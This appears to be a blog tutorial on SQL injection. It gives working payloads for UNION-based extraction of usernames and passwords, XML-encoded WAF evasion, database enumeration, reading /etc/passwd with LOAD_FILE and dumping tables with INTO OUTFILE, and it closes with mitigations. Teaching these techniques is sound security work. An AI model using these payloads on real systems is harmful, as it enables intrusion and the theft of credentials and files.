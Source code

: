 ```yaml
---
layout: single
title:  "SQL Injection"
date:   2023-07-27 13:22:22 +0200
categories: ['Web-Exploitation']
classes: wide
toc: true
---
```

# What is SQL injection (SQLi)?
SQL injection (SQLi) vulnerabilities allow an attacker to interfere with the queries that an application makes to the application database. They allow an attacker to view data they should not be able to retrieve. The challenge with SQL injection is that input can come from many places. People are well aware of SQLi in form fields, but also cookies and request headers can be modified by a malicious client which are not directly
set by the web app user. 

An even more tricky form of attack is **second order injection**, where an attacker does the injection
in two steps. By placing the input data into a database an SQL injection can happen at a later stage when handling a different request. The application then retrieves the stored data and uses it into a SQL query in an unsafe way.

## Retrieving data from database tables
Attackers can perform SQL injection vulnerabilities to retrieve data from other tables within the database that are not directly involved in the injected query. This can be achieved using the `UNION` keyword, letting the attacker execute an additional `SELECT` query and append the results to the original query. For example, if an application executes the following query containing the user input "Gifts" when browsing to `https://insecure-website.com/products?category=Gifts`:
```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```
An attacker can submit the following input:
```sql
' UNION SELECT username, password FROM users--
```
The above statement causes the application to return all usernames and passwords along with the product names and descriptions. The key part of the injection is the double-dash sequence `--`, and means that the rest of the query is interpreted as a comment.

# SQL injection in different contexts
An attacker can perform SQL injection using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database. These different formats can also provide alternative ways to obfuscate payloads that are otherwise blocked due to Web Application Firewall (WAF) and other defense mechanisms. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in `SELECT`:
```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

# Union attacks
The `UNION` keyword allows you execute one or more additional `SELECT` queries and append the results to the original query. For example:
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`. For a `UNION` query to work, two key requirements must be met:
- Individual queries must return the same number of columns.
- The data types in every column must be compatible between individual queries.

To find out the amount of columns that are involved in a query, you can submit a series of `UNION SELECT` payloads specifying different number of null values:
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
...
```
Having determined the number of required columns, you can probe each column to test whether it can hold a particular data type by submitting a series of `UNION SELECT` payloads that place the data values into each column in turn.

## Retrieving multiple values in a single column
One can easily retrieve multiple values together within a single column by concatenating them together, ideally by including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
```sql
' UNION SELECT username || '~' || password FROM users--
```

# Examining the database
It is often necessary to gather information about the database, including the type and version of the database software, and the contents like which tables and columns it contains.

## Querying the version
Different databases provide different ways of querying their version. For example, you could use a UNION attack with the following input for a MySQL database:
```sql
' UNION SELECT @@version--
```
## Listing the contents of the database
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database. You can query information_schema.tables to list the tables in the database:
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.columns 
SELECT * FROM INFORMATION_SCHEMA.tables
SELECT * FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME = 'Users'
```
## Viewing user privileges
To be able to find our current DB user, we can use any of the following queries. We can then test if we have super admin privileges.
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

SELECT super_priv FROM mysql.user
SELECT grantee, privilege_type FROM information_schema.user_privileges
```
## Read and write files
The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:
```sql
SELECT LOAD_FILE('/etc/passwd');
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php") --
```
The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. Within MySQL, we can use the following query to obtain the value of this variable:
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
If the result shows that the `secure_file_priv` value is empty, we can read/write files to any location. The `SELECT INTO OUTFILE` statement can be used to write data from select queries into files.
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

# Mitigations
Most SQL injection vulnerabilities can be prevented by using parameterized queries (prepared statements) instead of string concatenation within the query. Think about what phase of the development cycle you want to apply countermeasures:
- **At coding time**: the goal is to prevent vulnerabilities when writing code by doing defensive coding
(sanitize input/output, whitelisting allowed inputs, identify input sources, use prepared statements, etc.)
- **At testing time**: the goal is to detect vulnerabilities by doing static, dynamic or hybrid checking of code.
These are based on a combination of “rules” that identify dangerous coding patterns, and an information
flow analysis. If user input can reach a dangerous “sink” without being sanitized, an alarm is given. But
these tools can suffer from false positives and false negatives.
- **At run time**: you detect attacks that exploit remaining vulnerabilities. One technique is **taint-tracking**: whenever input enters the program from an untrustworthy source, it will be tainted and
the strings you create will have this information. The final string highlights potentially dangerous
sources which can be used to detect attacks.
